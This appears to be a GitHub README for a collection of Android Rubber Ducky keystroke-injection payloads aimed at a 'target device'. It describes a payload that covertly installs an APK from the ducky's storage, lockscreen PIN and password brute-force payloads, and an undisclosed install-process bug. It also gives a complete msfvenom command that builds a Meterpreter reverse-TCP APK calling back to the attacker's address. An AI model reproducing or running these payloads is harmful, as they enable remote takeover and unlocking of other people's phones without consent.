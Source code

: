 # ANDROID_BLANKET_PARTY
This repository houses all my Android Rubber Ducky payloads, most of these payloads will also work with a O.MG cable 

//BLANKET PArty as in that iconic scene from "FUll MEtal Jacket"//
![image](https://github.com/salvat1on/ANDROID_BLANKET_PARTY/assets/27372029/4ca1e4a8-846d-4da1-b140-8399392bd945)

Swipe-to-open.txt will install an apk to the target device that resides in the ducky storage.

The [STAND-ALONE] Pin / Password lockscreen brute force payloads will also be included in 
this Repository.

You can create an APK Payload with metasploit with the following command in the terminal

msfvenom -p android/meterpreter_reverse_tcp LHOST=YOUR_ADDRESS LPORT=5555 -o WHATEVER_NAME.apk

The APK file must then be copied to the ducky along side the bin file you place there as well.

The APK payloads rely on a bug I found and will be reporting soon, within the APP install process

[SWIPE TO OPEN DEMO]

[![IMAGE ALT TEXT HERE](https://i.ibb.co/Yh2D6Vt/swipe.png)](https://youtu.be/Hon9YmdVehQ)

[PIN CRACKER DEMO]

[![IMAGE ALT TEXT HERE](https://i.ibb.co/gJKgg6b/pin-crack.png)](https://youtube.com/shorts/jV1f7E00P_g)
